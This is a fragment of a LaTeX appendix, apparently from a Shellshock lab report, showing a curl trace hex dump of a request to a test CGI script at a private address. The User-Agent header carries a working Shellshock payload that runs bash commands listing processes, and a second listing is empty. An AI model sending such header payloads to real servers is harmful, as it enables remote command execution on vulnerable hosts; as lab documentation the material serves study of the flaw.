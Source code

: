 \documentclass[12pt,a4paper,twocolumn]{article}
\begin{document}
\begin{appendix}
\begin{lstlisting}[language=bash, caption=Contents of debug.exploited\_\_psef.txt ,label={lst:output.debug.debug.psef}]
== Info:   Trying 10.9.0.5:80...
== Info: TCP_NODELAY set
== Info: Connected to 10.9.0.5 (10.9.0.5) port 80 (#0)
=> Send header, 207 bytes (0xcf)
0000: 47 45 54 20 2f 63 67 69 2d 62 69 6e 2f 76 75 6c GET /cgi-bin/vul
0010: 2e 63 67 69 20 48 54 54 50 2f 31 2e 31 0d 0a 48 .cgi HTTP/1.1..H
0020: 6f 73 74 3a 20 31 30 2e 39 2e 30 2e 35 0d 0a 41 ost: 10.9.0.5..A
0030: 63 63 65 70 74 3a 20 2a 2f 2a 0d 0a 75 73 65 72 ccept: */*..user
0040: 2d 61 67 65 6e 74 3a 20 28 29 20 7b 20 3a 3b 20 -agent: () { :;
0050: 7d 3b 20 65 63 68 6f 3b 65 63 68 6f 20 63 75 72 }; echo;echo cur
0060: 72 65 6e 74 20 70 72 6f 63 65 73 73 20 69 73 20 rent process is
0070: 72 75 6e 6e 69 6e 67 20 75 6e 64 65 72 3b 65 63 running under;ec
0080: 68 6f 3b 20 2f 62 69 6e 2f 62 61 73 68 20 2d 63 ho; /bin/bash -c
0090: 20 27 70 73 20 2d 65 66 75 20 31 30 30 30 3b 65  'ps -efu 1000;e
00a0: 63 68 6f 3b 65 63 68 6f 20 2d 2d 2d 20 73 68 65 cho;echo --- she
00b0: 6c 6c 73 68 6f 63 6b 20 65 78 70 6c 6f 69 74 65 llshock exploite
00c0: 64 20 2d 2d 2d 3b 65 63 68 6f 27 0d 0a 0d 0a    d ---;echo'....
== Info: Mark bundle as not supporting multiuse
<= Recv header, 17 bytes (0x11)
0000: 48 54 54 50 2f 31 2e 31 20 32 30 30 20 4f 4b 0d HTTP/1.1 200 OK.

00a0: 76 2f 6e 75 6c 6c 0a 72 6f 6f 74 20 20 20 20 20 v/null.root

--- REST OF LOG IS OMMITTED ---
\end{lstlisting}


\subsection{Tracing command substitution with \lstinline{curl --trace}}
\label{apx:output.debug.debug.curtracenested}

\begin{lstlisting}[language=bash, caption=Contents of debug.shell-command-substitution.trace.txt ,label={lst:output.debug.debug.curtracenested}]

\end{lstlisting}

\end{appendix}
\end{document}
